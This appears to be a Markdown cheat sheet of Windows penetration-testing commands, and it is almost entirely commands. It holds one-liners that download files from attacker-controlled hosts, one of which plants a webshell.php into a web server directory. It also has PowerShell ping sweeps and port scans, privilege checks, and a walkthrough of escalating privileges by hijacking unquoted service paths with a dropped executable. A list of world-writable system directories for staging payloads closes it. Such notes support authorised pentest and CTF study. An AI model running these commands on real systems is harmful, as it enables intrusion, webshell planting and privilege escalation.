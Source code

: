   # Windows Snippets

wget for Windows:
```
certutil.exe -urlcache -f http://172.16.1.100:8001/FILE.exe OUTFILE.exe
or
powershell "(New-Object System.Net.WebClient).DownloadFile('http://HOST:PORT/webshell.php', 'C:\Apache24\htdocs\SOME_DIR\BLEND_ING.php')"
or
powershell iwr -uri 'http://10.10.16.111/FILE.exe' -Outfile C:\\Windows\\Tasks\\FILE.exe
```

check for impersonate privs and other privs:
```
whoami /priv
```

Run `dir` recursively:
```
gci -recurse .
```

Get open/connected ports
```
netstat -aon
```

# Scans
Subnet ping scan (about 5 seconds per host)
```
1..20 | % {"10.10.123.$($_): $(Test-Connection -count 1 -comp 10.10.123.$($_) -quiet)"}
```
Port scan single host ([other port scans](https://medium.com/@nallamuthu/powershell-port-scan-bf27fc754585))
```
1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("10.10.123.110",$_)) "Port $_ is open!"} 2>$null
```

# Exploiting Windows Services
Listing services for weak perms and unquoted service paths ([link](https://www.hackingarticles.in/windows-privilege-escalation-weak-services-permission/))
```
wmic service get name,startname,pathname
```
```
sc qc SERVICENAME # Check if BINARY_PATH_NAME calls an unquoted service path and see if is a priv esc opp
```
```
./accesschk /accepteula -uwdq "C:\DIR\FROM\ABOVE" # check write perms of a subdir of BINARY_PATH_NAME so we can commandeer the service call w our own executable
```
```
net start SERVICENAME # start the service after dropping our executable into the path
```

Kernel Priv Esc:
- save `systeminfo` output and run through the [Windows Exploit Suggester_new](https://github.com/bitsadmin/wesng)


## Tips
1. https://github.com/ankh2054/windows-pentest

__Dirs writable by default by normal users:__
```
C:\Windows\Tasks
C:\Windows\Temp
C:\windows\tracing
C:\Windows\Registration\CRMLog
C:\Windows\System32\FxsTmp
C:\Windows\System32\com\dmp
C:\Windows\System32\Microsoft\Crypto\RSA\MachineKeys
C:\Windows\System32\spool\PRINTERS
C:\Windows\System32\spool\SERVERS
C:\Windows\System32\spool\drivers\color
C:\Windows\System32\Tasks\Microsoft\Windows\SyncCenter
C:\Windows\System32\Tasks_Migrated (after peforming a version upgrade of Windows 10)
C:\Windows\SysWOW64\FxsTmp
C:\Windows\SysWOW64\com\dmp
C:\Windows\SysWOW64\Tasks\Microsoft\Windows\SyncCenter
C:\Windows\SysWOW64\Tasks\Microsoft\Windows\PLA\System
```
